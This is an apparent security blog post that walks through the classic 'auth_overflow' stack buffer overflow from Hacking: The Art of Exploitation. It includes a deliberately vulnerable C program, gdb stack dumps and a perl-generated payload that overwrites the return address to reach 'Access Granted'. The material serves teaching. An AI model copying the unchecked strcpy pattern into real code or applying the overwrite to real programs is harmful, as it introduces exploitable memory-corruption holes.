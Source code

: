```yaml
---
layout: default
title: "A Buffer Overflow From the 90s"
date: 2022-02-14
description: "Going over a basic buffer overflow from the book Hacking: The Art of Exploitation"
img_url: assets/img/post1/code.png
tags: [Cybersecurity, Buffer Overflow]
---
```


# 0x300 Exploitation
Lots of exploits have to do with memory corruption (buffer overflows and whatnot). Other common errors that may allow for exploitation is
thing like off by one errors.

The goal of memory corruption is to force the program to execute foreign code smuggled into memory (*Arbitrary Code Execution*).
```c
char arr1[4], arr2[4]; //these two arrays are adjacent in memory
arr1[4]="1"; //would set the char "1" into arr2 and would not cause a crash
strcpy(arr1,"123456"); //arr2 now holds "56"
```

We're going to walkthrough a overflow of the following simple C program. You should load the program into
gdb if you want to follow along. Use `gdb ./auth_overflow`.


```c
int check_authentication(char *password){
  int auth_flag = 0;

  char password_buffer[16];

  strcpy(password_buffer, password);

  printf("auth_flag location:       %p contents: %d\n", &auth_flag, auth_flag);
  printf("password_buffer location: %p contents: %s\n", password_buffer, password_buffer);

  if(strcmp(password_buffer, "brillig") == 0)
    auth_flag = 1;
  
  if(strcmp(password_buffer, "outgrabe") == 0)
    auth_flag = 1;

  return auth_flag;
}

int main(int argc, char *argv[]){
  
  if(argc < 2) {
    printf("Usage: %s <password>\n", argv[0]);
    exit(0);
  }

  if(check_authentication(argv[1])){
    printf("\n------------------------------\n");
    printf("          Access Granted!        ");
    printf("\n------------------------------\n");
  } else {
    printf("\n------------------------------\n");
    printf("          Access Denied -_-       ");
    printf("\n------------------------------\n");
  }
}
```

The idea is that the input to the program is not length checked and it is eventually written to
```c
 char password_buffer[16];
```

We can use this fact to overwrite the return address for the `check_authentication()` function and cause control to skip to the access granted portion of the code.

Remember this is an exploit from the 90's and these days there is a thing called a canary, that is a set value that sits between stack frames, that prevents obvious abuses like this. If you want to try the exploit in gdb you must compile with `-fno-stack-protector`.

You also have to keep in mind that ASLR is a thing so this would be harder to do outside of gdb https://en.wikipedia.org/wiki/Address_space_layout_randomization.

### Overwriting mains stack frame
When a function is called the current context or "frame" of that function is pushed to the stack. The stack frame contains the local variables
of the function, the return address (where execution moves to after a control is returned from a called function) and the functions arguments.

compile and load the program into gdb to get started
```
gcc auth_overflow.c -o auth_overflow  -Wall -Wextra -pedantic -std=c17 -g -fno-stack-protector
gdb ./auth_overflow
```

If you `disassemble main` you can see the relevant instructions, and their locations in memory.

```
0x0000000000001402 <+79>:	call   0x1209 <check_authentication>     // this is the call to the check_authentication function
0x0000000000001407 <+84>:	test   eax,eax                           // control would normally return to the instruction right
0x0000000000001409 <+86>:	je     0x143f <main+140>                 // after the function call
0x000000000000140b <+88>:	lea    rax,[rip+0xc7e]        # 0x2090
0x0000000000001412 <+95>:	mov    rdi,rax
0x0000000000001415 <+98>:	call   0x10c0 <puts@plt>
0x000000000000141a <+103>:	lea    rax,[rip+0xc8f]        # 0x20b0
0x0000000000001421 <+110>:	mov    rdi,rax
0x0000000000001424 <+113>:	mov    eax,0x0
0x0000000000001429 <+118>:	call   0x10e0 <printf@plt>
0x000000000000142e <+123>:	lea    rax,[rip+0xc5b]        # 0x2090
```

This is the instruction we want to move execution to.
```
0x000000000000140b <+88>:	lea    rax,[rip+0xc7e]        # 0x2090
```

You should set breakpoints at `strcpy(password_buffer, password);` and `return *auth_flag;`

Once the program is loaded into the memory the actual instruction address is 
```
0x555555555407 <main+84>:	test   eax,eax
```

If we step forward to our first breakpoint we can see the contents of the stack.

rsp in `check_authentication` = `0x7fffffffde10`

We can also see where our buffer starts in memory
```
(gdb) x/x password_buffer
0x7fffffffde30:	0x0000000000000000
```

using `x/30xg $rsp` we can see the contents of the stack
```
0x7fffffffde10:	0x0000000800000001	0x00007fffffffe2e0
0x7fffffffde20:	0x0000000000000000	0x0000000000000000
0x7fffffffde30:	0x0000000000000000	0x0000000000000000 //buffer starts here
0x7fffffffde40:	0x0000000000000000	0x0000000000000000
0x7fffffffde50:	0x00007fffffffde70	0x0000555555555407 //expected return address is here
0x7fffffffde60:	0x00007fffffffdf98	0x0000000200000001
0x7fffffffde70:	0x0000000000000002	0x00007ffff7daffd0
0x7fffffffde80:	0x0000555555554040	0x00005555555553b3
0x7fffffffde90:	0x0000000200000000	0x00007fffffffdf98
0x7fffffffdea0:	0x0000000000000000	0xf0e0fbc6da39aa0c
0x7fffffffdeb0:	0x00007fffffffdf98	0x00005555555553b3
0x7fffffffdec0:	0x0000000000000000	0x00007ffff7ffbc40
0x7fffffffded0:	0x0f1f0439673daa0c	0x0f1f14732535aa0c
0x7fffffffdee0:	0x00007fff00000000	0x0000000000000000
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0xdcfac294e9f8b000
```

So we need 8\*6=48bytes total so 40bytes then the address of the target instruction
```
0x0000555555555402 <+79>:	call   0x555555555209 <check_authentication>
0x0000555555555407 <+84>:	test   eax,eax
0x0000555555555409 <+86>:	je     0x55555555543f <main+140>
0x000055555555540b <+88>:	lea    rax,[rip+0xc7e]        # 0x555555556090 //target address is this instruction
```

We can use perl to generate a payload to give as input to the program. Remember we need 40 bytes of padding then the 8 byte address.
```
$(perl -e 'print "a"x40 . "\x0b\x54\x55\x55\x55\x55\x00\x00"')
```

Unfortunately at this point I had to reload the program so thanks to ASLR the addresses of things in memory are slightly different, however same
basic process applies, and the distance of things in memory doesn't change.

### Exploitation
Disassembly of main
```
0x00005555555553bf <+79>:	call   0x5555555551e9 <check_authentication>
0x00005555555553c4 <+84>:	test   eax,eax
0x00005555555553c6 <+86>:	je     0x5555555553fc <main+140>
0x00005555555553c8 <+88>:	lea    rax,[rip+0xcc1]        # 0x555555556090 //this is our target
0x00005555555553cf <+95>:	mov    rdi,rax
```

Again set breakpoints at `strcpy(password_buffer, password);` and `return *auth_flag;`

With the program loaded in gdb we can use `run $(perl -e 'print "a"x40 . "\xc8\x53\x55\x55\x55\x55\x00\x00"')` to attempt the exploit.

Step to first break point and observe contents of stack within check auth function.
```
(gdb) x/16xg $rsp
0x7fffffffde20:	0x0000000000000000	0x00007fffffffe2dd
0x7fffffffde30:	0x0000000000000000	0x0000000000000000 //password_buffer starts here
0x7fffffffde40:	0x0000000000000000	0x0000000000000000
0x7fffffffde50:	0x00007fffffffde70	0x00005555555553c4 //need to overwrite this
0x7fffffffde60:	0x00007fffffffdf98	0x0000000200000001
0x7fffffffde70:	0x0000000000000002	0x00007ffff7daffd0
0x7fffffffde80:	0x0000555555554040	0x0000555555555370
0x7fffffffde90:	0x0000000200000000	0x00007fffffffdf98
```

Stepping to our second breakpoint we can see the overwrite.
```
(gdb) x/50xg $rsp
0x7fffffffddf0:	0x0000000000000000	0x00007fffffffe2bd
0x7fffffffde00:	0x6161616161616161	0x6161616161616161 //loaded with 'a'
0x7fffffffde10:	0x6161616161616161	0x6161616161616161
0x7fffffffde20:	0x6161616161616161	0x00005555555553c8 //used to end in c4
```

And we can see execution moves to the desired location and access granted is printed to the screen
```
//we hit the breakpoint on the sucessful branch
78	    printf("\n------------------------------\n");
(gdb) n
------------------------------
79	    printf("          Access Granted!        ");
(gdb) n
80	    printf("\n------------------------------\n");
(gdb) n
          Access Granted!        
------------------------------
```

And thats the exploit! Very old, very beginner level. I feel like modern security makes this almost impossible, but I'm sure people could find ways around ASLR to still comprimise the program if the vulnerability exists.
